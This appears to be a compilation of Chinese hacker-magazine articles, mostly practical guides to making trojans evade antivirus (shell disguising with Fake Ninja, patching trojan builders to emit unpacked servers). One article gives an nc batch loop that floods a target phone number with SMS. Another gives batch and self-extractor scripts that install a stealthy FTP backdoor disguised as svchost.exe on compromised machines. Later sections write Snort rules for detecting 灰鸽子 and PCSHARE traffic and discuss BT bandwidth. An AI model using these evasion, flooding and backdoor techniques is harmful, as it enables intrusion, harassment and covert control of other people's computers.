对于喜欢把特征码定位在 PE 头的，只要用工具加个壳，把 PE 头改得一塌糊涂（当然也可以手工修改 PE 头，不过比较麻烦），而且需要了解一些 PE 文件的结构知识，它就不认识了。如果还想把免杀做得好点，可以把自己的服务和注册表键值改成非系统必须的，那么这类行为查杀的笨蛋就成盲人了。

这篇文章主要讲了免杀的原理和理论上的方法，以及一些个人的心得，并没有太多实例的演示，因为我个人感觉，理解原理才是最重要的，只有这样你自己才可能有突破，想出更多免杀的方法。

蝴蝶：对于木马免杀技术来说，最重要的是做好隐藏工作。很多朋友会觉得修改特征码、加花指令比较难，其实还有一种非常简单的方法同样可以做到木马免杀，那就是为木马加一个“伪装壳”。

适合读者：黑客爱好者，木马爱好者  
前置知识：无

## 为木马穿上羊皮
### — Fake Ninja


文/图 人鱼姬

最近我发现了一个伪装 Exe 文件的好工具 Fake Ninja 2.6，很适合大家对木马进行免杀。我这里就拿最常用的 Serv-u 提权工具 ftp.exe 作为例子演示吧。首先用卡巴扫一下，有毒，如图 1 所示。选择跳过，关了卡巴，省得卡巴碍事。好了，现在可以用 Fake Ninja 2.6 了，不过在这之前要先确认一下要处理的程序无壳，用 PEiD 看一下，如图 2 所示。


图1


图2

知道程序无壳以后，打开 Fake Ninja 2.6，如图 3 所示。


图3

点击 START GAME，选中我们要处理的文件，也就是 ftp.exe。下一步就比较有趣了，请注意程序下面的下拉菜单 choose your destiny，里面的选项都是各种各样的壳，我听说过的壳和没听说过的壳足足有好几十种，如图 4 所示。

我选了一个 PE Crypt 1.02 -> random, killa & acpizer，最后点击 FATALITY，程序提示成功，如图 5 所示。

程序大小几乎没变，一直是 32KB，实际上此程序已非彼程序了。用卡巴扫一下，如图 6，轻松地点了几下鼠标，就过了杀毒软件。

再用 PEiD 扫一下，已经变成我们刚才选的壳了，如图 7 所示。


图4


图5

大家手里一定都有很多程序等着做免杀吧，那就先用此程序加个花，再加个猛壳，这样就可以躲过很多杀毒软件了。实际上此程序的作用不只是加花免杀，还可以伪装壳的信息。


图6


图7

对于程序员朋友来说，如果想保护自己辛辛苦苦完成的作品，那么你可以用这个工具给自己的作品伪装一个很生僻的壳；如果 Cracker 轻信了 PEiD 的判断，那就陷入了脱壳的怪圈。对于 Cracker 朋友来说，你们在破解别人的作品时，不要轻信 PEiD 的判断，如果遇到怎么也脱不了的壳，最好判断一下是不是被伪装过，不要只是傻乎乎地脱壳。

适合读者：黑客爱好者、免杀爱好者  
前置知识：无

VIP会员园地·攻堡店

#### 打造无壳灰木马

文／图 [黑防VIP]圣战☆天使


有些黑软在生成服务端时总会被主程序加壳，而且是强制性的；一点商量的余地都不给，这给我们这些想自己做免杀黑软的菜菜们带来了一定的困难。先不说壳好不好脱，万一在脱壳时一不小心让自己也种上了木马，岂不得不偿失？

其实在大多数情况下，服务端在配置之前都是没有加壳的，它们以资源文件的形式保存在主程序中。只有当配置服务端时才被释放出来并写入用户配置的信息，然后主程序再通过调用同样以资源的形式保存在自身的加壳程序进行加壳。下面我就以“入侵先锋（穿墙版A）”来做个例子。

入侵先锋（穿墙版A）只有一个文件，主程序提供了两种加壳方式，如图 1 所示（可惜就是没有不加壳的选项，不然我们也就不用这么辛苦了）。先用 PEiD 扫描一下，发现是 NsPack 1.4，一个版本很老的北斗壳，可以直接用 PEiD 的通用脱壳器搞定。脱壳后发现是 Borland Delphi 编写的，下面我就用两种方法来尝试突破该程序的加壳限制。

##### 方法一

因为该程序调用的所有文件都是以资源的形式保存在主程序中，所以我们可以直接在资源里把加壳软件删掉，主程序就会因为找不到加壳软件而不加壳，不过这种方法可能会造成主程序运行不稳定甚至崩溃。


图1

下面看我的操作。首先用 PE Explorer 打开脱壳后的主程序，如图 1 所示。程序共有 3 个 PE 文件资源，因为无法确定哪个才是服务端程序，所以我们将其全部导出来，分别保存为 GOOD1.EXE、GOODE2.EXE 和 GOOD3.EXE，如图 2 所示。


图2

现在我们可以用杀毒软件来扫描一下这 3 个文件，发现 GOOD1.EXE 和 GOODE2.EXE 都被杀掉了，说明这两个文件是服务端，而 GOOD3 就是传说中的加壳软件 FSG，那么我们只需要把它删除即可。可惜不知是什么原因，如果直接将资源 GOOD3 删除，程序就无法运行了。不过没有关系，我们换用 ResScope 加载入侵先锋的主程序，在左边的资源框里找到 EXEFILE 下 GOOD3 资源并单击右键，这时右边就会出现与资源 GOOD3 对应的 16 进制编码，我们单击右键在弹出的菜单中选择“全选(A)”，然后再选择“删除(D)”（修改前如图 3，修改后如图 4），接着保存即可。


图3


图4

ResScope 在保存时会自动把我们删掉的数据用 0 补齐，这样就不会影响主程序的运行；但它所调用的加壳软件已被修改成了一个全 0 的空程序。

##### 方法二

刚才我们是迂回到敌人背后进行攻击，现在我们来正面单挑，用破解技术搞定它。先用 OllyICE 加载已经脱壳后的入侵先锋（穿墙版A）的主程序，因为主程序调用加壳程序时可能会用到 WinExec、ShellExecute、CreateProcess，所以我们就在这几个 API 上下断点。入侵先锋调用的是 WinExec，接着按 F9 运行程序，点击入侵先锋中的“生成”按钮，程序被断在了 7C86114D > 8BFF mov edi, edi。在堆栈中我们可以看到如图 5 所示。


图5

这表示程序在 0046C30 处调用 WinExec，CmdLine 是要执行的参数，ShowState 是显示方式。此时程序的意图暴露无疑。现在我们重新加载入侵先锋，Ctrl+G 来到 WinExec 的调用处 0046C430，直接 Nop 掉这一句“0046C430 E8 2BA9F9FF call <jmp.&KERNEL32.WinExec>”，接着“复制到可执行文件→所有修改”，然后保存文件即可。

适合读者：免费爱好者，黑客爱好者  
前置知识：无

## 长效短信炸弹

文/图 安静的小E

### 再度归来


看了黑防刊登的“菜鸟也要自己做永不过期的短信炸弹”一文，觉得思路独到，原作者利用的是 HTML 构造表单，然后利用网站发信页面，实现无限循环提交。这样就弥补了网上一些“手机炸弹”类似程序的不足。一旦发现网站发信页面失效了，可以直接修改链接，实现永不失效的效果。有些东西其实就是那么简单的原理，看你会不会去想了。

看过文章后，了解了简单的原理，忽然有一个想法，HTML 构造表单能实现“信息炸弹”的效果，那么用批处理写出来会不会达到同样的效果呢？经过测试，发现批处理也可以实现同样的效果。

随便找一个 http://u.5ku.com，是个彩信、铃声下载站，并且在给手机发送信息的时候也无需验证码，如图 1 所示，就用这个吧！和原文同样的原理，用 WSockExpert 抓包分析数据，这里我就不啰嗦了，不会的请看第 8 期的文章，如图 1 所示。

我修改的地址比较权威：中国移动通信用户注册页面，大家可以随便自己修改。这个地址的页面如图 2 所示。看到了吧？也没有验证码限制，并且速度非常快。还有在修改的时候要注意，有的彩信下载网站有次数限制，发送几条后就不能再发了，因为有发送次数限制。所以大家在使用的时候要找一些无限制的网页页面，如图 2 所示。

mobileNo=13********* 这个不用说了，写你要炸的手机号，其他信息都是抓包分析到的。


首先我们先新建一个 1.txt 文本文档，写入关键代码（这里我构造好了）：

```
POST /register/reg02.aspx?Type=TX&id=23441&...
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Referer: http://www.hl.chinamobile.com/...
Content-Type: application/x-www-form-urlencoded
...
mobileNo=13*********
```

需要解释的是 http://www.hl.chinamobile.com/...ActS32601_1.do?...（后接参数）。

构建好之后，我们还要实现循环提交，这里利用 NC 来实现，然后再写一个批处理。方法如下，新建一个文本文档，然后写入以下代码：

```
:go
nc.exe -w 2 219.238.238.180 80 <1.txt
goto go
```

NC 的 -w 参数就是 timeout 的时间，219.238.238.180 是彩信网站的 IP；然后指向刚才建立的 1.txt 文件，最后保存为 BAT 批处理文件。现在一个批处理信息炸弹就完成了，如图 3 所示。


那么我们如何使用呢？首先在 1.txt 里把“mobileNo=13*********”修改成你要炸的手机号；把 NC 打开，再打开“手机炸弹.bat”，如图 4 所示。HOHO！最小化玩别的去吧！

本文到这里就结束了，就目前来说，这样的信息炸弹对用户来说还没有什么好的防范方法，大家一定要小心警惕，不要把自己的手机号随意透露哦！

适合读者：木马爱好者  
前置知识：汇编基础

## 让《广告变态传尾巴》重焕生成无壳的服务端

文/图 小xH_b


百变宣传尾巴是网站宣传的好工具，但是它生成的服务端是经过 FSG 2.0 加壳的，我们想再给它做免杀的话就比较困难了，因为服务端已经被加过壳了，再加壳的话就会导致服务端不能正常运行。现在杀毒软件更新得飞快，根本免杀不了几天，大大缩短了其生命周期。虽然软件的作者会免费定期更新软件，但是杀软也在更新。还是那句话，“授人以鱼，不如授之以渔，授人以鱼只救一时之殇，授人以渔则可解一生之需”。既然作者没给我们“渔”，我们就要自己把“鱼”变成“渔”，让它直接生成无壳的服务端！

这里以百变宣传尾巴 Build0826 讲一下。百变宣传尾巴 Build0826 的服务端是以资源的形式保存在主文件中的，配置信息是一些额外数据的形式追加在服务端文件尾的。如果我们直接把生成的服务端脱壳之后就不能正常运行了（运行的时候程序不会报错，但是却什么功能都没了，当然也不会去宣传我们的网站了）。这是因为额外数据并没有保存在我们脱壳之后的文件尾。因为配置信息丢失了，所以就完全失去了它的功能了。这是我们所不希望的，所以我们可以将配置信息直接追加到文件尾，这样服务端就又可以正常运行了，但这样做太费事，不能一劳永逸。每配置一次服务端都要重新来过。如果我们把主文件里面的服务端资源导出来，然后脱壳（或免杀），把脱壳（或免杀）后的再导入到主文件中就可以一劳永逸了，也就直接生成了无壳（或免杀）的服务端了 ^_^！

首先侦察一下敌情。用查壳软件查一下主文件（指的是配置服务端的程序，不要误解成了是配置好的服务端哦）是否被加壳。查看的结果是“UPX 0.89.6-1.02/1.05-1.24(Delphi) stub -> Markus & Laszlo”。看来是被 UPX 加过壳的，我们先给它脱壳。用 OD 载入，接着来到这里：0047152B ... jmp 百变宣传 00455908。按 F4 运行到这里，然后再按 F7 找到真正的 EP 在 00455908 ... push ebp。在这行点击鼠标右键，选择“OllyDump 脱壳调试进程”最后再点击“脱壳保存”就可以了。

接着用 Freres 再给它建立可编辑的资源（理论上不用脱壳就可以直接用这个软件建立可编辑资源，但是我试了多次总是不成功，不知道是为什么，希望高手指点）。用 Freres 载入后会出现“载入资源错误，它可能是已被压缩，你是否需要释放资源进行分析？”这里我们点击“是”，然后选择“功能->建立可编辑资源”，如图 1 所示，这时候会发现资源的名称已经改变了，如图 2 所示，很奇怪的问题，不知道为什么。再用“Restorator 2006”把名字重命名为“EXEFILE”就可以了（如果不改回原来的名字，在生成服务端的时候会出错）。


这时候的主文件基本上已经是正常无壳的，并且是可以对资源编辑的 EXE 文件了。下面用 RrsScope 将主文件里面的 EXE 资源导出来，导出的文件存为 1.exe，如图 3 所示。用 PEiD 检查 1.exe，结果是“FSG 2.0 -> bart/xt”。现在我们来脱壳，先用 OD 载入它，首先来到这里：


按 F4 后再按 F7 来到程序的 OEP，再在本行点鼠标右键选“OllyDump”脱壳调试进程，然后将文件保存为 2.exe。这时候的 2.exe 还不能正常运行，需要重建输入表。用 ImportREC 给它重建输入表，用 OD 载入 1.exe 运行到程序的 OEP……


然后用 ImportREC 选中 1.exe，IAT 所需信息如图 4 所示填写。点击“获取 API 调用”，先点击“显示无效的”，然后点击鼠标右键把无效的指针删除，最后点“修理 DUMP”。保存到 2.exe，这个就是正常的无壳文件了。

这里还要说一句，如果对生成的无壳服务端进行加壳的话，要保留额外数据，否则就不能运行了。现在，我们已经有自己的“渔”了，希望大家能够举一反三，将自己的“鱼”变成终身有效的“渔”！

适合读者：网络爱好者、入侵爱好者  
前置知识：无

## VIP会员学习成果展：非黑客软件“黑客化”
### 打造永不被查杀的FTP后门


文/图【黑防VIP】风卷尘萧

现在，越来越多的杀毒软件都把木马、黑客软件列入了查杀队列，使得黑客爱好者在入侵时遇到了不小的阻力。好不容易扫描到网上某台主机存在漏洞，利用找到的漏洞成功穿越防火墙上传木马或后门到肉鸡上，但执行程序安装木马或后门时，马上便被上面安装的杀毒软件给 kill 掉了，使得黑客爱好者们好不容易找到的“肉鸡”就这样飞掉了。

为了绕过杀毒软件的查杀，黑客界针对目前杀毒软件主要是以特征码技术查杀病毒、木马的原理，修改木马或后门的特征码来防止杀毒软件的查杀。这也是现在比较流行的防止被杀毒软件查杀的办法。但因为改特征码涉及文件脱壳、加壳以及文件内部结构，相对复杂，对刚刚学习入侵的黑客爱好者来说显得有些力不从心。

那么，有没有一种简单的办法，既可以让我们的木马、后门躲过杀毒软件的查杀，又可以让刚刚学习入侵的黑客爱好者们上手呢？

对这一思想进行了深入而系统的研究，我称其为“拿来主义”——非黑客软件之“黑客化”，同时总结出了这类可以“黑客化”的软件所必须具备的 3 个条件：

- 软件的功能在黑客入侵中经常用得到，如远程控制、跳板与代理、FTP 服务等；
- 软件本身提供了以服务运行的方式或提供了将其安装成服务的命令参数；
- 程序可以隐藏运行或提供了隐藏运行的命令参数。

下面，我就以一个实例来介绍我的这一思想。此次我们要“黑客化”的目标是 Ipswitch WS_FTP Server。安装成功后，在服务列表中找到相关服务并查看其信息。这里我们关心的主要是它的路径，因为我们要用 sc 在肉鸡上将其注册为服务，必须知道路径信息。

保证在肉鸡上能够成功安装为服务。从图1可以看出，本软件的服务是没有特殊参数的，直接输入其路径即可。接下来，新建一个文件夹，把安装目录下的所有文件拷贝到该文件夹下，同时将 iFtpSvc.exe 改名为 svchost.exe，以增强后门的隐藏性。同时，为了入侵方便，我们做一个批处理文件 start.bat，其内容如下：


图1

```bat
@echo off
@sc create "DriverSrv" start= auto binPath= "%Systemroot%\System32\Driver\svchost.exe" Displayname= "Driver Server"
@sc start DriverSrv
@attrib +s +h +r *.*
@del start.bat
```

上述批处理文件的意思我就不用多说了吧？经常看黑防的朋友肯定都知道。这里需要说明的是，大家一定要给自己要注册的服务起一个具有迷惑性的名字；同时还要注意“=”号后要有一个空格。上述工作完成后，将该批处理文件放到刚才新建的文件夹下，将它们打包成自解压文件，并在注释中添加如下脚本：

```ini
Path=%Systemroot%\System32\Driver\
SavePath
Setup=start.bat
Silent=1
Overwrite=2
```

现在初步的准备工作我们已经完成了。将制作的自解压文件放到肉鸡上运行，然后登录一下试试。什么？无法登录？这就对了，因为现在我们只是在肉鸡上面安装了这个服务，还没有对其进行配置。那么该如何进行配置呢？Follow Me!

远程 Telnet 到肉鸡上（可以用 Windows 自带的 telnet 服务，也可以用其它远程控制软件，如 Radmin 的 Telnet 功能，随大家喜好）。切换到 %Systemroot%\System32\Driver 目录下，运行“iftpadd /?”，如图2所示。


图2

不用多说，大家也可以从图中的提示看出它是干什么用的，无非就是配置、管理 FTP 站点。再运行“iftpaddu /?”，如图3所示。


图3

根据提示我们可以看出，这是用来配置、管理 FTP 帐号的。那么 FTP 站点的端口怎么办呢？这个软件默认采用 21 端口，可万一对方也安装了 FTP 软件并占用了 21 端口怎么办？我们可以把它改成别的，比如 2121 端口。回到本地，运行 Ipswitch WS_FTP Server 管理器，点击本地系统，在右边窗体中点击“修改常规系统设置”按钮，如图4所示。


图4

在弹出的窗体中就可以修改 FTP 端口了。我本地用的是 210 端口，将其修改成 2121 端口，点击确定。然后打开注册表，展开 HKEY_LOCAL_MACHINE\SOFTWARE\Ipswitch\iFtpSvc\Global，如图5所示，有一个键值名字为 Port，其值为 2121。将其导出为 reg.reg，并只保留 Port 键值，将该文件上传到肉鸡的 %Systemroot%\System32\Driver 目录下。reg.reg 文件修改后的内容如下：


图5

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Ipswitch\iFtpSvc\Global]
"Port"=dword:00000849
```

现在端口问题解决了，我们在肉鸡上建立一个 FTP 站点吧。根据 iftpadd 和 iftpaddu 的提示，我们新建一个 localhost 站点，再在这个站点里新建一个 admin 的系统管理员，并导入端口的注册表文件，为了使我们的设置能够生效，重新启动 iFtpSvc 服务。整个过程如图6所示。


图6

再次登录肉鸡，怎么样，是不是可以登录了？并且可以新建文件夹、上传及下载文件了。如图7所示。


图7

现在，既然我们在肉鸡上建立了 FTP 后门，自然希望除此之外，还可以浏览、下载肉鸡上各个分区里的文件内容，怎么办呢？再次回到本机，新建一个 localhost 站点，并新建一个 admin 的系统管理员，如图8所示。然后添加 admins 用户组，如图9所示，并将 admin 用户添加为 admins 用户组的成员，如图10所示。


图8


图9

接下来我们再添加一个虚拟文件夹 C，指向 C:\，并对其进行编辑，如图11所示。点击其中的“添加”按钮，赋予 admins 用户组所有权限。当然，你也可以直接赋予 everyone 用户组所有权限，反正肉鸡是我们自己在用。

这样就可以不用建立 admins 用户组了，所有用户都拥有所有权限，如图12所示。


图10

同时，我们添加其它诸如 D、E、F、G 等虚拟文件夹，指向其他分区。接下来打开注册表，并展开到 HKEY_LOCAL_MACHINE\SOFTWARE\Ipswitch\iFtpSvc\Domains\localhost，如图13所示。将其导出为 virtual.reg，修改该注册表文件，使其只保留 Dirs 和 Groups 子键，然后将 virtual.reg 上传到肉鸡上，并在命令行下导入：`regedit /s virtual.reg`，重启 DriverSrv 服务，再次登录肉鸡，就会发现我们的虚拟目录已经成功地设置到了肉鸡上，如图14所示。


图11


图12

到这里，一台 FTP 肉鸡就建成了！既隐蔽，又不会被杀毒软件给 Kill 掉，真是一个字——爽！


图13

为了方便使用，大家还可以根据本文的步骤将其制作成一个自解压文件，在 Windows 下双击或在 DOS 下直接运行即可安装，账号、密码自己设，虚拟文件夹 C、D、E、F、G 分别指向各个分区。这样，以后直接运行自己制作的自解压文件就行了，是不是很爽呢？


图14

根据我一年多来“黑客化”的经验，我发现黑客化这类软件，首先都要在自己机器上进行配置，找到相关的配置文件，如账号、密码保存在什么位置。这些配置文件大多是在安装目录下的 ini 或 dat 等文件中，但 Ipswitch WS_FTP Server 有些特殊，它是保存在了注册表中。因此，我们完全可以先在本地配置好一个 localhost 站点，并设置好端口、账号、密码、虚拟文件夹、权限分配等，再把注册表文件导出，导入到肉鸡上。不过这样操作的话，在肉鸡上其账号虽然存在，但密码却无法使用，但我们可以配合 ftpadduser 的更改密码功能，重新修改密码，一样可以达到我们的目的。

当然，配合自解压文件和批处理文件，我们甚至可以制作出一个通用的 FTP 后门程序，直接 Telnet 到肉鸡上运行，就可以神不知鬼不觉地将肉鸡打造成一台 FTP 服务器了。

怎么样？通过这个实例，各位黑友对我“非黑客软件黑客化”的思想是不是有了更深刻的理解了？只要符合我开始提到的 3 个特点的非黑客软件，都可以进行“黑客化”，并且永远不用担心会被肉鸡上的杀毒软件给 Kill 掉。希望大家平时多多“黑客化”，并把自己“黑客化”的经验与心得拿出来与大家一起分享。这样，我们才能共同提高。

最后顺便说一下：Ipswitch WS_FTP Server 也是一款不错的 FTP 架站软件，不过这不是我本文要说的重点，所以在此我就不再啰嗦了。有兴趣的朋友可以自己研究一下，如果有什么好的心得，大家可以互相交流一下！

- 适合读者：网络爱好者、木马爱好者
- 前置知识：无

#### 让木马在网络中现形

木马程序是危害网络安全的一个巨大威胁。现阶段人们对木马程序的防治主要还是通过各种木马病毒查杀软件来实现，其原理是通过甄别程序本身的文件特征来确定是否为木马程序。这种防治方法是有一定局限性的。入侵者可以通过改变木马程序的特征使杀毒软件无法识别该程序，从而达到逃避查杀软件查杀的目的，包括对木马程序进行加壳、加花、定位并改变特征码等手段，即通常所说的免杀。每个入侵者都可以通过这些手段来构造自己的木马程序。而杀毒软件厂商在制作病毒木马特征码库时，只能针对网络中所流行的病毒木马程序。在这种情况下，经过改变特征码的木马程序就有可能逃避木马病毒查杀软件的查杀而长期存在了。

入侵者为了达到对远程主机的控制，必须通过本地和远程的木马程序的通信来实现。一个特定的木马程序在改变了程序特征码后，其功能是不变的，所以它的通信数据包结构和网络行为也不会改变。因此，相对于程序特征码而言，通过网络行为特征来甄别木马程序的手段具有一定的优越性。如果我们能够明白木马程序在通讯时的协议和数据包的意义，我们就有可能通过网络上部署的入侵检测系统制定一定的规则来抓取这些特定数据包，从而发现网络中木马的活动痕迹。本文的目的就是通过这种思路来对木马活动的网络行为特征进行分析。

##### 方法和原理

为了分析木马程序的网络行为特征，我们搭建了一个具体的实验环境。实验硬件设备包括 PC 两台、交换机一台、服务器一台；软件包括数据包分析软件 Ethereal、入侵检测软件 Snort。

具体搭建过程：一台 PC 安装 Windows 2003 系统，分配 IP 地址为 192.168.0.1，做木马程序的控制端；在这台主机上安装抓包软件 Ethereal，对木马程序的通信内容进行抓取分析。另一台 PC 安装 Windows XP 系统，作为木马程序的受控端，分配 IP 地址为 192.168.0.2。在交换机上做一个网络流量的镜像口，把通过交换机的所有网络流量都镜像到这个端口上。在服务器上安装部署入侵检测系统 Snort，并接到交换机的镜像口。


图1 实验网络拓扑

为了对木马的网络行为特征进行分析，先要得到木马通信时的数据包。我们在两台 PC 机上分别安装木马程序的控制端和受控端，使用控制端对受控端计算机进行各种操作和控制；并用数据包抓取软件抓取并保存木马程序运行过程中发送到网络上的数据包。得到木马通信的数据包后，我们对数据包的内容进行分析，寻找该木马在通信过程中可以标志其存在的数据包特征。

木马在网络环境中的甄别。这里我们主要在木马通信包的数据部分，也就是在 TCP 或 UDP 数据包结构中的 payload 部分去寻找特征字符串作为甄别标记，用于入侵检测设备规则的制定。这些字符串应该是在正常应用程序的通信数据包中出现的几率比较少的，这样才能减少入侵检测设备对正常应用程序数据包的误报。

正所谓树大招风，我们就从国内现阶段最著名的两款木马程序——灰鸽子和 PCSHARE——开始进行我们的发现之旅吧。


##### 灰鸽子

灰鸽子是现阶段国内流行最广泛的一款后门软件。它有多个版本和变种，比起前辈冰河、黑洞来，灰鸽子可以说是国内后门的集大成者。灰鸽子控制端和受控端之间的通信采用反弹方式，也就是通过受控端主动连接控制端来实现。受控端插入系统进程运行，所以它有比较好的隐藏性和穿越防火墙的功能。我们对灰鸽子 2003、2004、2005 和 2006 这四个版本进行分析。

在实验过程中，我们要寻找比较有代表性的数据包。灰鸽子使用反弹连接，为了支持双方动态 IP 地址，它使用了一个中转站来支持，这些中转站可以是一些免费的个人空间。控制端在这些空间上放置自己的地址，而受控端则在那里得到控制端地址，以实现双方的动态互联。在得到控制端的地址后，受控端与控制端进行 TCP 连接，并向它发送上线通知的数据包。上线通知的数据包是由网络内木马程序的受控端向外发送的，如果可以检测到网络中有这种数据包出现，则可以很好地判断木马程序在网络中的活动，所以它可以作为特征分析的一个很好对象。

通过截包分析，我们可以看到图2～图5中灰鸽子各版本受控端向控制端发送的上线通知数据包内容。


从图2～图5我们可以看出，灰鸽子向控制端主机发送的上线通知数据包 payload 部分含有受控端系统版本、主机名称、木马版本等比较直观的信息。其中，灰鸽子 2003、2004 和 2005 三个版本的信息组织方式比较明显，它们把受控端的信息封装在 XML 中；而 2006 的信息封装方式就没有那么明显了，但它还是明文的，没有经过加密，所以还是可以作为目标数据包进行特征提取的。

灰鸽子 2003、2004 和 2005 使用的 XML 是比较有特征的，网络环境中出现相同定义的 XML 字符串几率比较小，所以我们可以选取构成 XML 的字符串作为特征字符串。

作为实验，我们候选的字符串为：`<IM>`、`</IM>`、`<BZ>` 和 `</BZ>`，将它们转换为十六进制为 `3c 49 4e 3e`、`3c 2f 49 4e 3e`、`3c 42 5a 3e` 和 `3c 2f 42 5a 3e`。

通过上面的分析，我们可以定义检测灰鸽子 2003、2004 和 2005 的 Snort 规则（规则定义方法可以查看 Snort 的用户手册）如下：

```text
alert $HOME_NET any any -> any any (msg:"huigezi 2003 2004 2005 exists"; content:"|3c 49 4e 3e|"; content:"|3c 2f 49 4e 3e|"; content:"|3c 42 5a 3e|"; content:"|3c 2f 42 5a 3e|";)
```

本规则的意义是：当检测到网络中存在源地址为 $HOME_NET 指定的内部网络，源端口为任何端口，目的地址为任何地址，目的端口为任何端口，包内容存在 `<IM>`、`</IM>`、`<BZ>` 和 `</BZ>` 字符串时，则报告网络中存在灰鸽子活动。

灰鸽子 2006 不使用 XML 对信息进行封装，但是它使用的上线通知数据包也是明文的。此数据包 payload 部分分动态内容和静态内容两部分，动态内容封装的是受控端主机信息，静态内容可视为数据包的前后缀，不同的受控端发送的数据包的这部分内容是不变的。所以我们选取 payload 的这部分内容作为特征字符串。这里我们选取 payload 的前 12 个字符作为特征 `d7 d4 b6 af c9 cf cf df d6 f7 bb fa`，则针对灰鸽子 2006 制定入侵检测规则如下：

```text
alert $HOME_NET any any -> any any (msg:"huigezi2006 exists"; content:"|d7 d4 b6 af c9 cf cf df d6 f7 bb fa|";)
```

## PCSHARE

PCSHARE 被称为现在国内最优秀的木马。它使用反向 HTTP 隧道伪装，控制端伪装为 Web 服务器，而受控端行为像正常浏览网站，所以在穿越防火墙的功能上比较出众。和灰鸽子一样，它也是一个反弹方式连接的木马程序，受控端支持动态连接和静态连接两种方式。动态连接和灰鸽子一样通过中转站实现，静态连接方式则是在配置受控端程序时，直接配置控制端的地址，使受控端直接连接控制端主机。

由于 PCSHARE 在通信中伪装成 HTTP 方式，所以其控制端和受控端使用 HTTP 的 Post 和 Get 方法来传输命令和信息。在传输过程中，受控端向控制端通信的信息是经过加密的，但其 Post 和 Get 的方法有一定的特征。当受控端和控制端建立连接后，会通过 Get 的方式通知自己上线，并通过 Post 的方式来接收控制端的命令和传输信息。下面我们分别对 PCSHARE 2005 黑防专版和 PCSHARE 2005 0324 版两个版本进行截包分析。

PCSHARE 2005 黑防专版受控端向控制端通知上线数据包如图6所示。我们可以看到，受控端 192.168.0.2 向控制端 192.168.0.1 发送的通知上线数据包是一个 HTTP Get 包，Get 的内容为一个 URL：`/file.asp` 和由数字 50320096 组成的 querystring 参数。图7、图8和图9是受控端接受控制端 3 个不同命令后出现的 Post 行为的 3 个数据包。从中可以看出 PCSHARE 2005 黑防专版受控端接收控制端命令的数据包是 HTTP Post 包，Post 的内容为一个 URL：`/upfile.asp` 和由很长一段数字组成的 querystring 参数。


PCSHARE 2005 0324 版受控端向控制端通知上线数据包如图10所示。其上线通知包也是一个 HTTP Get 包，和黑防专版不同的是，它没有明显的 URL，只是传递了参数 30010100。图11、图12和图13是 3 个受控端接受控制端不同命令后出现的 Post 行为的数据包，Post 的内容由“/”和一段很长的数字组成。

从这两个版本的 PCSHARE 的几个通信数据包可以看到，虽然它们都伪装成 HTTP 通信，但是其 Post 和 Get 行为是比较特殊的，所以我们可以在这里寻找甄别它和正常的 HTTP 通信不同的特征。作为实验，我们寻找这两个版本 PCSHARE 的相同特征来写适用于它们的入侵检测规则。

图11

图12

图13

检测规则。

由于它们的两个上线通知数据包的 GET 内容不同，我们从它们的 POST 数据包寻找共同特征。PCSHARE 的 POST 包内容中都出现了一段很长的由数字组成的 querystring，在正常的 HTTP 应用中，出现这种特殊的长串数字作为参数的现象是很少的，所以当网络中的一个 POST 数据包出现了这种内容，我们就可以判断在网络中有 PCSHARE 在活动了。仔细观察后，我们发现了这 6 个数据包 POST 的长串数字中有一段是相同的“701434132424645463032373438344639”。我们就取这段数字为甄别 PCSHARE 这两个版本网络活动的特征码。转换为十六进制后是“37 30 31 34 33 34 31 33 32 34 32 34 36 34 35 34 36 33 30 33 32 33 37 33 34 33 38 33 34 34 36 33 39”。

加上 POST 这段字符串的十六进制码“50 4F 53 54”，制定入侵检测规则如下：

```text
Alert $home_net any any -> any any (msg: "pcshare exists"; content: "|50 4f 53 54|"; content: "|37 30 31 34 33 34 31 33 32 34 32 34 36 34 35 34 36 33 30 33 32 33 37 33 34 33 38 33 34 34 36 33 39|";)
```

到这里，我们制定了 3 个入侵检测规则，把它们写到实际网络环境部署的 Snort 入侵检测系统后便发现了报警，如图14、图15和图16所示。

图14 实际网络环境中 Snort 的报警

我们可以看到报警中有很多的灰鸽子，多数为 2005 版，还有少量的 2006 版，但是对 PCSHARE 暂时还没有发现，这从一个方面反映了现在网络中流行的木马比例。报警的数据包内容和我们实验截包分析的一致，这表明我们制定的入侵检测规则正常工作了。

图15 Snort 对灰鸽子 2005 报警的数据包内容

图16 Snort 对灰鸽子 2006 报警的数据包内容

##### 总结

这次实验只是提出了一个木马检测的思路，其中很多的不足还需各位朋友多多指教，我的 E-mail 是 yuandonghe@163.com。我们本次实验所针对的灰鸽子和 PCSHARE 都能比较容易地找出网络特征，这可能是这两个木马的设计缺陷所在吧。如果木马设计者使用自己不公开的协议来设计木马控制端和受控端的通信，或者对通信的内容进行加密，我们就很难从网络中检测到它们的行踪了，而这也可能是以后灰鸽子和 PCSHARE 新版本发展的方向吧！

刘流：BT 已经在现在这个年代越来越受网民的喜爱，免费而共享的东西，随着宽带的普及进入校园、企业和万千家庭中。可是，巨大的流量使国内目前的带宽变得捉襟见肘起来，网关服务器频繁掉线、速度减慢的事情开始经常发生，作为一个网管，怎样才能解决此类问题呢？这就是本文的重点。

- 适合读者：网络管理员，系统管理员
- 前置知识：无

## BT流量对校园网络造成的影响及其对策

江苏省盐城市滨海临淮初级中学——黄亚震／卢东祥

##### 引言

BT 下载以其独特的优势受到了大用户的喜爱，它在下载的同时还为其他用户提供上传，因此下载的人越多，它的速度也越快。因此，在高速的校园网络内下载巨大的音乐、电影文件是非常流行和普遍的。不过，麻烦也随之而来，由于 BT 软件的出现，使得网络带宽一下子变得不够用了。据国际互联网流量监控公司最新统计发现，BT、KAZAA 和 EMULE 等 P2P 软件所占用的带宽超过了传统的 HTTP 80 端口，并且已经超过了 60%。这对于以太网接入等共享带宽的高校校园宽带接入方式提出了很大的挑战，大量的数据包使接入层交换机的端口长期工作在高速状态，严重影响了用户使用正常的 Web、E-mail 以及视频点播等服务。本文试图就 BT 流量所造成的影响、BT 流量的控制以及校园网运营的对策做探讨。

多点下载的源码公开的 P2P 软件，使用非常方便，就像一个浏览器插件，适合新发布的热门下载。其特点简单地说就是下载的人越多，速度越快。目前很多校园使用广域网来连接互联网，由于 BT 大量的使用，会造成校园网网络带宽被尽情地消耗。BT 所占用的带宽远远超过了传统的 HTTP 80 端口，并且已经超过了 60%，严重破坏了广域网的出口带宽资源分配，彻底改变了校园网络流量构成。

### 3．造成网络拥挤，使校园关键业务明显延迟

